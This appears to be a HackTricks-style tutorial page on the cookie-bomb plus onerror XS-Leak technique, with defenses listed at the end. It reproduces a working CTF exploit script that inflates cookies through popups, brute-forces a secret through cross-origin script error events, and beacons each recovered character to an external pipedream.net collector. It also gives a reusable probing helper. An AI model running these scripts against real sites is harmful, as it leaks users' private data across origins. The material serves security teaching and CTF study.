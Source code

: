 # Cookie Bomb + Onerror XS Leak

{{#include ../../banners/hacktricks-training.md}}

This technique combines:
- Cookie bombing: stuffing the victim’s browser with many/large cookies for the target origin so that subsequent requests hit server/request limits (request header size, URL size in redirects, etc.).
- Error-event oracle: probing a cross-origin endpoint with a <script> (or other subresource) and distinguishing states with onload vs onerror.

High level idea
- Find a target endpoint whose behavior differs for two states you want to test (e.g., search “hit” vs “miss”).
- Ensure the “hit” path will trigger a heavy redirect chain or long URL while the “miss” path stays short. Inflate request headers using many cookies so that only the “hit” path causes the server to fail with an HTTP error (e.g., 431/414/400). The error flips the onerror event and becomes an oracle for XS-Search.

When does this work
- You can cause the victim browser to send cookies to the target (e.g., cookies are SameSite=None or you can set them in a first-party context via a popup window.open).
- There is an app feature you can abuse to set arbitrary cookies (e.g., “save preference” endpoints that turn controlled input names/values into Set-Cookie) or to make post-auth redirects that incorporate attacker-controlled data into the URL.
- The server reacts differently on the two states and, with inflated headers/URL, one state crosses a limit and returns an error response that triggers onerror.

Note on server errors used as the oracle
- 431 Request Header Fields Too Large is commonly returned when cookies inflate request headers; 414 URI Too Long or a server-specific 400 may be returned for long request targets. Any of these result in a failed subresource load and fire onerror. [MDN documents 431 and typical causes like excessive cookies.]()

Practical example (angstromCTF 2022)
The following script (from a public writeup) abuses a feature that lets the attacker insert arbitrary cookies, then loads a cross-origin search endpoint as a script. When the query is correct, the server performs a redirect that, together with the cookie bloat, exceeds server limits and returns an error status, so script.onerror fires; otherwise nothing happens.

```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
  <input id="f" /><input name="search" value="a" />
</form>
<script>
  const $ = document.querySelector.bind(document)
  const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
  let i = 0
  const stuff = async (len = 3500) => {
    let name = Math.random()
    $("form").target = name
    let w = window.open("", name)
    $("#f").value = "_".repeat(len)
    $("#f").name = i++
    $("form").submit()
    await sleep(100)
  }
  const isError = async (url) => {
    return new Promise((r) => {
      let script = document.createElement("script")
      script.src = url
      script.onload = () => r(false)
      script.onerror = () => r(true)
      document.head.appendChild(script)
    })
  }
  const search = (query) => {
    return isError(
      "https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
    )
  }
  const alphabet =
    "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
  const url = "//en4u1nbmyeahu.x.pipedream.net/"
  let known = "actf{"
  window.onload = async () => {
    navigator.sendBeacon(url + "?load")
    await Promise.all([stuff(), stuff(), stuff(), stuff()])
    await stuff(1600)
    navigator.sendBeacon(url + "?go")
    while (true) {
      for (let c of alphabet) {
        let query = known + c
        if (await search(query)) {
          navigator.sendBeacon(url, query)
          known += c
          break
        }
      }
    }
  }
</script>
```

Why the popup (window.open)?
- Modern browsers increasingly block third-party cookies. Opening a top-level window to the target makes cookies first‑party so Set-Cookie responses from the target will stick, enabling the cookie-bomb step even with third‑party cookie restrictions.

Generic probing helper
If you already have a way to set many cookies on the target origin (first-party), you can reuse this minimal oracle against any endpoint whose success/failure leads to different network outcomes (status/MIME/redirect):

```js
function probeError(url) {
  return new Promise((resolve) => {
    const s = document.createElement('script');
    s.src = url;
    s.onload = () => resolve(false);  // loaded successfully
    s.onerror = () => resolve(true);  // failed (e.g., 4xx/5xx, wrong MIME, blocked)
    document.head.appendChild(s);
  });
}
```

Tips to build the oracle
- Force the “positive” state to be heavier: chain an extra redirect only when the predicate is true, or make the redirect URL reflect unbounded user input so it grows with the guessed prefix.
- Inflate headers: repeat cookie bombing until a consistent error is observed on the “heavy” path. Servers commonly cap header size and will fail sooner when many cookies are present.
- Stabilize: fire multiple parallel cookie set operations and probe repeatedly to average out timing and caching noise.

Related XS-Search tricks
- URL length based oracles (no cookies needed) can be combined or used instead when you can force a very long request target:

{{#ref}}
url-max-length-client-side.md
{{#endref}}

Defenses and hardening
- Make success/failure responses indistinguishable:
  - Avoid conditional redirects or large differences in response size between states. Return the same status, same content type, and similar body length regardless of state.
- Block cross-site subresource probes:
  - SameSite cookies: set sensitive cookies to SameSite=Lax or Strict so subresource requests like <script src> don’t carry them; prefer Strict for auth tokens when possible.
  - Fetch Metadata: enforce a Resource Isolation Policy to reject cross-site subresource loads (e.g., if Sec-Fetch-Site != same-origin/same-site).
  - Cross-Origin-Resource-Policy (CORP): set CORP: same-origin (or at least same-site) for endpoints not meant to be embedded as cross-origin subresources.
  - X-Content-Type-Options: nosniff and correct Content-Type on JSON/HTML endpoints to avoid load-as-script quirks.
- Reduce header/URL amplification:
  - Cap the number/size of cookies set; sanitize features that turn arbitrary form fields into Set-Cookie.
  - Normalize or truncate reflected data in redirects; avoid embedding attacker-controlled long strings in Location URLs.
  - Keep server limits consistent and fail uniformly (avoid special error pages only for one branch).

Notes
- This class of attacks is discussed broadly as “Error Events” XS-Leaks. The cookie-bomb step is just a convenient way to push only one branch over server limits, producing a reliable boolean oracle.



## References
- XS-Leaks: Error Events (onerror/onload as an oracle): https://xsleaks.dev/docs/attacks/error-events/
- MDN: 431 Request Header Fields Too Large (common with many cookies): https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/431
{{#include ../../banners/hacktricks-training.md}}
